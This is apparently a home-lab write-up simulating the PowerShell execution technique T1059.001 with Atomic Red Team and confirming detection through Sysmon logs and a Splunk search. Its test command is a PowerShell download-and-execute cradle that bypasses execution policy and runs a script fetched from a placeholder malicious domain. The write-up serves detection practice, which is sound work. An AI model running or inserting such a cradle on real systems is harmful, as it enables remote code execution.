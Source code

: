 # T1059.001 – PowerShell Execution

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Objective

* Simulate a real-world PowerShell-based attack
* Confirm Sysmon logs command line activity (Event ID 1)
* Verify detection in Splunk via search queries

---

## 🧪 Atomic Command Used

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This PowerShell command reflects a common technique used by attackers to download and execute remote code.

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* Sysmon Event ID 1 logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Suspicious PowerShell usage
* Base64 encoded or obfuscated strings
* Unexpected external IPs or domains

---

## ✅ Result

* PowerShell execution logged by Sysmon (Event ID 1)
* Event successfully forwarded to Splunk
* Detection via query confirmed visibility

---

## 📸 Screenshots

### 1. Atomic Red Team Inference 
![PowerShell Attack](../screenshots/T1136.002.PNG)

### 2. Atomic Red Team payload being triggered:

![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 2. Splunk search showing detection:

![Log Entry](../screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 3. Log entry with PowerShell payload:

![Payload](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
